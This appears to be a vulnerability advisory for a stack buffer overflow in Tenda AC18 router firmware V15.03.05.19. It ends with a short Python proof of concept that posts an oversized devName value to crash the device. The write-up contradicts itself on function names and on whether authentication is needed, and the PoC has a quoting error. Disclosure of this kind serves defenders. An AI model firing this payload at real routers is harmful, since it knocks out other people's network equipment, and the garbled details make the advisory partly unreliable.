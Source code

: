 ## Tenda AC18 stack overflow vulnerability

## 1. Affected version
V15.03.05.19

## 2. Vulnerability details

A stack overflow vulnerability exists in the formSetClientState and  sub_C6BB0 function of the Tenda AC18 V15.03.05.19 firmware.
The formSetDeviceNam function retrieves the devName parameter from a POST request and passes its value to the sub_C6BB0 function. Within the sub_C6BB0 function, the value of the devName parameter is assigned to the local variable v5.
The sub_C6BB0 function contains a statically allocated buffer v26 with a fixed size of 256 bytes. The function formats and stores the devName parameter using the statement sprintf(&v26, "%s;1", v5). However, because the devName input is fully controlled by the user, an attacker can supply a specially crafted devName value that exceeds the capacity of the v26 buffer.
This vulnerability can be exploited remotely by an unauthenticated attacker, potentially leading to a denial-of-service (DoS).


   
   ![My Image](7.png)

## 3 POC
```python
import requests

url = 'http://IP:port/goform/formSetDeviceName"

headers = {"Cookie": "password=You cookie"}

data = {
    'serverEn': 2,
    'devName': 'l' * 10000
}
res = requests.post(url=url, headers=headers, data=data)
print(res.text)
```
You can observe the router crashing, and ultimately, it is possible to craft an exploit to gain a shell.
